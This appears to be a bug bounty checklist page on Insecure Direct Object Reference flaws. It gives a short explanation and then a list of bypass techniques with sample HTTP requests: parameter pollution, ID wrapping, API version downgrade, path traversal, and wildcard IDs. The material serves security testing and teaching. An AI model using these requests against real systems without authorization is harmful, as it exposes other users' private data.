 # Insecure Direct Object Reference

## IDOR Checklist

<figure><img src="../../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

## Basics

[https://owasp.org/www-project-top-ten/2017/A5\_2017-Broken\_Access\_Control.html](https://owasp.org/www-project-top-ten/2017/A5\_2017-Broken\_Access\_Control.html)\
\
For example, let's say we're logging into our bank account, and after correctly authenticating ourselves, we get taken to a URL like this [https://example.com/bank?account\_number=1234](https://example.com/bank?account\_number=1234). On that page we can see all our important bank details, and a user would do whatever they needed to do and move along their way thinking nothing is wrong.\
There is however a potentially huge problem here, a hacker may be able to change the account\_number parameter to something else like 1235, and if the site is incorrectly configured, then he would have access to someone else's bank information.

### **How to Find**

1. Add parameters onto the endpoints for example, if there was

```
GET /api/v1/getuser
[...]
```

Try this to bypass

```
GET /api/v1/getuser?id=1234
[...]
```

1. HTTP Parameter pollution

```
POST /api/get_profile
[...]
user_id=hacker_id&user_id=victim_id
```

1. Add .json to the endpoint

```
GET /v2/GetData/1234
[...]
```

Try this to bypass

```
GET /v2/GetData/1234.json
[...]
```

1. Test on outdated API Versions

```
POST /v2/GetData
[...]
id=123
```

Try this to bypass

```
POST /v1/GetData
[...]
id=123
```

1. Wrap the ID with an array.

```
POST /api/get_profile
[...]
{"user_id":111}
```

Try this to bypass

```
POST /api/get_profile
[...]
{"id":[111]}
```

1. Wrap the ID with a JSON object

```
POST /api/get_profile
[...]
{"user_id":111}
```

Try this to bypass

```
POST /api/get_profile
[...]
{"user_id":{"user_id":111}}
```

1. JSON Parameter Pollution

```
POST /api/get_profile
[...]
{"user_id":"hacker_id","user_id":"victim_id"}
```

1. Try decode the ID, if the ID encoded using md5,base64,etc

```
GET /GetUser/dmljdGltQG1haWwuY29t
[...]
```

dmljdGltQG1haWwuY29t => [victim@mail.com](mailto:victim@mail.com)

1. If the website using graphql, try to find IDOR using graphql!

```
GET /graphql
[...]
```

```
GET /graphql.php?query=
[...]
```

1. MFLAC (Missing Function Level Access Control)

```
GET /admin/profile
```

Try this to bypass

```
GET /ADMIN/profile
```

1. Try to swap uuid with number

```
GET /file?id=90ri2-xozifke-29ikedaw0d
```

Try this to bypass

```
GET /file?id=302
```

1. Change HTTP Method

```
GET /api/v1/users/profile/111
```

Try this to bypass

```
POST /api/v1/users/profile/111
```

1. Path traversal

```
GET /api/v1/users/profile/victim_id
```

Try this to bypass

```
GET /api/v1/users/profile/my_id/../victim_id
```

1. Change request content type

```
Content-type: application/xml
```

Try this to bypass

```
Content-type: application/json
```

1. Send wildcard instead of ID

```
GET /api/users/111
```

Try this to bypass

```
GET /api/users/*
```

1. Try google dorking to find new endpoint

Reference:

* [@swaysThinking](https://twitter.com/swaysThinking) and other medium writeup
* [https://github.com/daffainfo/AllAboutBugBounty/blob/master/Insecure%20Direct%20Object%20References.md](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Insecure%20Direct%20Object%20References.md)

